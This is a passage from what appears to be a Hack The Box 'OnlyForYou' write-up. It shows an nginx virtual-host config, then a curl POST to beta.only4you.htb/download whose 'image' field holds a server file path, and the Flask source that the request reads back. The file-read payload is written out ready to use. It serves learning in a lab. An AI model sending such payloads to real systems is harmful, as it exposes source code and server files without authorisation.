 ```bash
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
        listen 80;
        server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

I'm able to read only4you.htb py files:
```bash
curl -s -k -X $'POST' \
  -H $'Host: beta.only4you.htb' \
  ...
  ...
  --data-binary $'image=/var/www/only4you.htb/app.py' \
  $'http://beta.only4you.htb/download'

from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')
...
...
if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```
